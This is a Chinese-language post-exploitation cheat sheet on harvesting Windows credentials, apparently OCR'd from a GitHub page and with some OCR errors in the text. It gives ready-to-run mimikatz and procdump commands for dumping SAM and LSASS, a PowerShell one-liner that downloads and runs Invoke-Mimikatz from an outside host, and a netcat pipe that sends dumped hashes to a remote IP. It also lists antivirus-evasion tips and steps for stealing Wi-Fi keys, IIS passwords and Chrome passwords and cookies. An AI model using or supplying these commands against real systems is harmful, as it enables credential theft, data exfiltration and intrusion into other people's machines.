 # 凭证信息收集

## 凭证获取工具
常用来获取windows密码的工具:
1、mimikatz
2、wce
3、pwddump7
4、ophcrack
5、procdump+mimikatz
6、LaZagne

密码HASH
LM & NTLM

Windows本地hash:
https://www.secpulse.com/archives/65256.html

Vindows系统下hash密码格式:
用户名称:RID:LM-HASH值:NT-HASH值

## Mimikatz
mimikatz For Win10T载:

https://github.com/gentilkiwi/mimikatz/releases

本地非交互式凭证获取:
```ts
mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" " exit"
```

__1x版本:__
```sh
privilege::debug       //提升权限
inject::process lsass.exe sekurlsa.dl   //注入sekurlsa.dl到lsass.exe进程里
@getLogonPasswords     //获取密码
```

__Powershell远程加载mimikatz脚本__
```ts
// IEX是加载到内存中执行的。
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.130/1');Invoke-Mimikatz -DumpCreds"
```
杀软绕过:
1.大写小写。
2.用+号 拼凑。。
[Mimikatz的18种免杀姿势及防御策略](https://www.freebuf.com/articles/system/234365.html)
```ts
v2.0 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1
v2.2 https://raw.githubusercontent.com/Mr-xn/Penetration_Testing_POC/master/tools/Invoke-Mimikatz.ps1
```

输出重定向

```
攻击机: nc -lvvp 6666 > pass123.txt
靶机  : mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit" | nc.exe -v 47.101.214.85 6666
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://127.0.0.1/f');Get-PassHashes // 不好使

### FAQ 不能执行 powershell远程命令
```ps
set-ExecutionPolicy RemoteSigned
或 Set-ExecutionPolicy -Scope CurrentUser
get-ExecutionPolicy
```

## 导出密码的几种方式
https://www.daimajiaoliu.com/daima/486f56b9d900403

procdump导出
```ts
procdump64.exe -accepteula -ma lsass.dmp
mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```


## wce获取明文密码 win7及以下
wce -w
## pwddump7 获取hash
Pwddump7.exe > pass.txt
https://www.objectif-securite.ch/ophcrack

如果网站无法破解出hash值·我们可以使用ophcrack工具配合彩虹表自己破解.
工具下载:https://ophcrack.sourceforge.io/
彩虹表:
https://ophcrack.sourceforge.io/tables.php
http://project-rainbowcrack.com/table.htm
## Procdump+Mimikatz

Procdump lsass 进程导出:
For 32bits: procdump.exe -accepteula -ma lsass.exe lsass.dmp
For 64bits: procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
然后使用mimikatz还原密码:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"

## 注册表导出hash
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
导出后可以使用cain导人system.hiv.security.hiv获取统存中的明文信息.
mimikatz "lsadump sam /system:system.hiv /sam:sam.hiv" exit

python3 -m pip install impacket
windows:  python secretsdump.py -sam sam.hiv -security security.hiv-system system.hiv LOCAL
linux:          impacket -secretsdump -system system.hiv -ntds ntds.dit LOCAL

## sharpdump

## Windows Wifi密码的获取
netsh wlan show profile
netsh wlan show profile name="ssid" key=clear
## 看hosts
C:\Windows\System32\drivers\etc\hosts

## Windows IIS config
lIS6:
cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root

IIS7,8:
列出网站列表:%systemroot%/system32/inetsrv/appcmd.exe list site
列出网站物理路:%systemroot%\system32\inetsr\appcmd.exe list vdir
Mimikatz读取lIS7配置文件密码:
mimikatz.exe privilege:debug log "iis:apphost /in:"%systemroot%\system32\inetsr\config\applicationHost.config" /live" exit

## windows回收站信息获取
FOR /f "skip=1 tokens=1,2 delims=" %c in ('wmic useraccount get name^,sid') do dir /a/b C:\$Recycle.Bin\%d\ ^>%c.txt

## Chrpme的密码和cookie获取
%localappdata%\Google\chrome\USERDA~1\default\LOGIND~ 1
%localappdata%\Google\chrome\USERDA~1\default\cookies

chrome的用户信息·保存在本地文件为sqlite数据库格式

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit # 读chrome密码
## __lazagne__ 综合获取信息
